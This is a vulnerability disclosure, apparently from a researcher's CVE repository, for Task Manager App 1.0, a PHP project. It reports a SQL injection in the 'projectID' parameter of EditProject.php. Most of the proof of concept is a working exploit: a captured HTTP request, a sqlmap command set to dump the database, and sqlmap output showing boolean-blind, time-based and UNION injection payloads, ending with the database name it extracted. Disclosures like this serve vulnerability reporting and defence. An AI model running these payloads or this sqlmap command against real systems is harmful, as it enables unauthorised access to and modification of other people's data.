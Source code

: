 # Task Manager App - SQL Injection - 1
+ **Exploit Title:** Task Manager App - SQL Injection - 1
+ **Date:** 2024-02-02
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/task-manager-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Task Manager App 1.0 allows SQL Injection via the 'projectID' parameter at "/TaskManager/EditProject.php?edit=1&projectID=2". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/TaskManager/"
+ Click on the Projects button
+ Then click 'Edit' button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /TaskManager/EditProject.php?edit=1&projectID=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.3
```

+ Use sqlmap to exploit. In sqlmap, use 'projectID' parameter to dump the database.
```
sqlmap -r r.txt -p projectID --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: projectID (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: edit=1&projectID=2' AND 7909=(SELECT (CASE WHEN (7909=7909) THEN 7909 ELSE (SELECT 1580 UNION SELECT 9184) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: edit=1&projectID=2' AND (SELECT 9888 FROM (SELECT(SLEEP(5)))NRJF)-- XBQU

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: edit=1&projectID=-3909' UNION ALL SELECT CONCAT(0x716b627671,0x51624d674a6753454e62564174786568454b514c5052585749516279787a525643774d5746525a73,0x71627a7a71),NULL,NULL-- -
---
[20:47:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[20:47:52] [INFO] fetching current database
current database: 'TaskManager'
```
+ current database: `TaskManager`

![Ekran görüntüsü 2024-02-02 044847](https://github.com/BurakSevben/CVEs/assets/117217689/c5d126ec-8a37-4679-8390-d3870f30a7f6)

